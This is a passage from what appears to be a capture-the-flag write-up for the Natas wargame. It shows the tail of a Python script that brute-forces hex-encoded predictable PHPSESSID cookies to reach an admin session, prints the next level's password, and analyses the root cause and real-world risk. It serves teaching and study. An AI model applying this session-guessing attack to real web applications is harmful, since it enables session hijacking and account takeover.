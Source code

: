 		    response = requests.get(TARGET, auth=AUTH, cookies=cookies)  
		  
		    if response:  
		        print(f"  Testing PHPSESSID: {hex_session_id} (from string: '{session_id_string}')...")  
		  
		    # Check if the "admin" success message is in the response  
		    if "You are an admin." in response.text:  
		        print(f"\nFound admin PHPSESSID: {hex_session_id}")  
		        print("\nCredentials for Natas20")  
		        # Extract and print the relevant part of the response  
		        start_index = response.text.find("Username: natas20")  
		        end_index = response.text.find("</pre>")  
		        if start_index != -1 and end_index != -1:  
		            print(response.text[start_index:end_index].strip())  
		        else:  
		            print(response.text)  # Fallback if text not found  
		        break  # Stop once the admin session is found  
		else:  
		    print(f"\nFailed to find admin PHPSESSID within the range 1-{MAX_SESSION_ID}")
		```
	
		The script identified the admin session corresponding to `281-admin` (`3238312d61646d696e`) and extracted Natas20's password: `p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`.

	The "Aha!" moment came from manually decoding the observed `PHPSESSID` cookie, which revealed the `[number]-admin` pattern, confirming the attack vector was a variation of predictable session IDs from the previous level, obscured by hex encoding.

**Rabbit Holes & Overcoming Adversity**
- **Challenge Encountered:** The primary challenge was the absence of source code, meaning the predictable session ID pattern observed in Natas18 was not immediately obvious and was further obscured by hex encoding.
- **Overcoming Adversity**: This was overcome by inspecting the `PHPSESSID` cookie in the developer tools. By manually decoding the hexadecimal string, the underlying `[number]-admin` pattern became clear. This deduction, combined with knowledge from Natas18's `maxid=640` led to the brute-force strategy.
- **What I Learned:** This reinforced the importance of low-level HTTP traffic analysis and manual decoding techniques when source code is unavailable. It highlighted that even simple encoding can obscure a clear pattern, and that careful observation of all data formats is essential for successful exploitation.

**Vulnerability & Real-World Impact**
- **Root Cause:** The core vulnerability is still the use of a low-entropy, predictable component (an integer between 1 and 640, likely generated by a PRNG like rand()) in the generation of session IDs. The hex encoding merely obscures this predictability, but does not add any cryptographic strength. The server concatenates this weak random number with a fixed string (`-admin`) and then hex-encodes it, making the entire ID trivial to guess through brute-force.
- **Real-World Scenario:** A web application that generates "unique" identifiers for resources like invoices or user profiles by concatenating a sequential or easily guessable number with a fixed string, and then perhaps base64-encodes the result. An attacker could enumerate these identifiers by guessing the predictable components, leading to unauthorised access to sensitive data (Insecure Direct Object Reference, IDOR).
- **Risk:** High as predictable session IDs, regardless of encoding, allow for session hijacking and impersonation, leading to full account compromise. The hex encoding adds a minor layer of obscurity but no real security, as the underlying entropy is low.
